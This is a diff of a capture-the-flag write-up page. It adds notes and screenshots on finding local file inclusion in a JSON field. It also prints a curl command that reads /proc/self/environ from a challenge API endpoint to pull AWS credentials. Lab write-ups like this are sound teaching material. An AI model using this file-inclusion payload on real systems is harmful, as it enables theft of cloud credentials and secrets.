

Before and after one commit to sebrink/teamincompetent, a Markdown page: ctfWriteup.md, the part around the change printed below. GitHub-like rendering; pictures changed too: img/web3.png (added), img/web4.png (added); blank space fills up the shorter version.

Commit message:
add web doc

````diff
--- a/ctfWriteup.md
+++ b/ctfWriteup.md
@@ -66,5 +68,11 @@ To solve this one, we authenticated with the credentials we pulled from the firs
 
-After we determined we had LFI on this endpoint, we grabbing the `/prof/self/environ` file in order to pull AWS credentials from the host (the sed line is some parsing to make this look nicer):
+Then, we found that it can take a file prefix in the JSON:
+![web3](img/web3.png)
+
+This is local file inclusion!
+![web4](img/web4.png)
+
+After we determined we had LFI on this endpoint, we grabbed the `/prof/self/environ` file in order to pull AWS credentials from the host (the sed line is some parsing to make this look nicer):
 ```
 $ curl -H "authorizationToken:flag-{gtkO4f4NOrJsRRNZWxiTbL6LLUs5Ir8g}" -d "{\"codeFile\": \"file:///proc/self/environ\"}"  https://jg0rh6th8e.execute-api.ap-south-1.amazonaws.com/test/share | sed 's/\\x00/\n/g'
 
````
Also changed, not shown: other parts of ctfWriteup.md (+3 -1 lines), img/web1.png (added), img/web2.png (added).
